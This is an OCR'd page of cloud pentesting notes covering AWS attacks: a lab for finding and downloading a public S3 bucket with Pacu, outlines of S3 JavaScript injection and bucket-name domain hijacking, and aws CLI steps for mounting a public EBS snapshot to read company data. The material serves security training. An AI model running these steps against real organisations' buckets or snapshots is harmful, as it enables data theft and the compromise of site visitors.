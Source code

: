 ### **S3 examples attacks**

```text
# S3 Bucket Pillaging

• GOAL: Locate Amazon S3 buckets and search them for interesting data
• In this lab you will attempt to identify a publicly accessible S3 bucket hosted by an organization. After identifying it you will list out the contents of it and download the files hosted there.

~$ sudo apt-get install python3-pip
~$ git clone https://github.com/RhinoSecurityLabs/pacu
~$ cd pacu
~$ sudo bash install.sh
~$ sudo aws configure
~$ sudo python3 pacu.py

Pacu > import_keys --all
# Search by domain
Pacu > run s3__bucket_finder -d glitchcloud 
# List files in bucket
Pacu > aws s3 ls s3://glitchcloud
# Download files
Pacu > aws s3 sync s3://glitchcloud s3-files-dir

# S3 Code Injection
• Backdoor JavaScript in S3 Buckets used by webapps 
• In March, 2018 a crypto-miner malware was found to be loading on MSN’s homepage
• This was due to AOL’s advertising platform having a writeable S3 bucket, which was being served by MSN
• If a webapp is loading content from an S3 bucket made publicly writeable attackers can upload  malicious JS to get executed by visitors 
• Can perform XSS-type attacks against webapp visitors
• Hook browser with Beef

# Domain Hijacking
• Hijack S3 domain by finding references in a webapp to S3 buckets that don’t exist anymore
• Or… subdomains that were linked to an S3 bucket with CNAME’s that still exist
• When assessing webapps look for 404’s to *.s3.amazonaws.com
• When brute forcing subdomains for an org look for 404’s with ‘NoSuchBucket’ error 
• Go create the S3 bucket with the same name and region 
• Load malicious content to the new S3 bucket that will be executed when visitors hit the site
```

### **EBS attack example**

```text
# Discover EBS Snapshot and mount it to navigate
- Obtaning public snapshot name
aws ec2 describe-snapshots --region us-east-1 --restorable-by-user-ids all | grep -C 10 "company secrets"
- Obtaining zone and instance
aws ec2 describe-instances --filters Name=tag:Name,Values=attacker-machine
- Create a new volume of it
aws ec2 create-volume --snapshot-id snap-03616657ede4b9862 --availability-zone <ZONE-HERE>
- Attach to an EC2 instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>
    - It takes some time, to see the status:
    aws ec2 describe-volumes --filters Name=volume-id,Values=<VOLUME-ID>
- Once is mounted in EC2 instance, check it, mount it and access it:
sudo lsblk
sudo mount /dev/xvdh1 /mnt
cd /mnt/home/user/companydata
```
